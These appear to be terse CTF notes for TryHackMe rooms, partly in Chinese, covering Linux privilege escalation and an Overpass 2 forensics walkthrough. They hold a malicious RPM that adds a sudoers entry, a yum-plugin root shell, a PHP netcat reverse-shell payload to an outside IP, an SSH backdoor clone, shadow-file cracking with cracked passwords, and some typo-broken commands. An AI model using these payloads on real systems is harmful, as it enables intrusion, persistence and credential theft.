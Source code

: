 			將 jjameson 用戶新增至 sudoers：
			echo 'echo "jjamson ALL=(root) NOPASSWORD: ALL" >> /etc/sudiers' > sudo.sh
			fpm -n root -s dir -t rpm -a all --before-install sudo.sh .

			sudp python3 -m http.server 80
			wget http://10.9.109.169/root-1.0–1.noarch.rpm
			sudo yum localinstall -y root-1.0-1.noarch.rpm
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		b) 
			TF=$(mktemp -d)
			cat >$TF/x<<EOF
			[main]
			plugins=1
			pluginpath=$TF
			pluginconfpath=$TF
			EOF

			cat >$TF/y.conf<<EOF
			[main]
			enabled=1
			EOF

			cat >$TF/y.py<<EOF
			import os
			import yum
			from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
			requires_api_version='2.1'
			def init_hook(conduit):
			  os.execl('/bin/sh','/bin/sh')
			EOF

			sudo yum -c $TF/x --enableplugin=y
			
			=> eec3d53292b1821868266858d7fa6f79
## Overpass 2 - Hacked
	--> https://tryhackme.com/r/room/overpass2hacked
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Forensics(Wireshark_pcap)
		--> https://hailstormsec.com/overpass-2/
			=> filter :http
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~		
	--> 初始存取權限 : reverse shell
		=> POST /development/upload.php HTTP/1.1
			=> Follow -> HTTP-Stream
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> access : 
			=> Payload.php 
				=> <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
			=> ip.src == 192.168.170.145
			=> /bin/sh 
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> root: 
		=> su james
		=> Password: whenevernoteartinstant
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> 持久性
		=> git clone https://github.com/NinjaJc01/ssh-backdoor
			--> 
		-->  /etc/shadow 
			--> find / -name fasttrack.txt 2>/dev/null
			=> sudo john --wordlist=/usr/share/wordlists/fasttrack.txt shadow
				secret12         (bee)     
				abcd123          (szymex)     
				1qaz2wsx         (muirland)     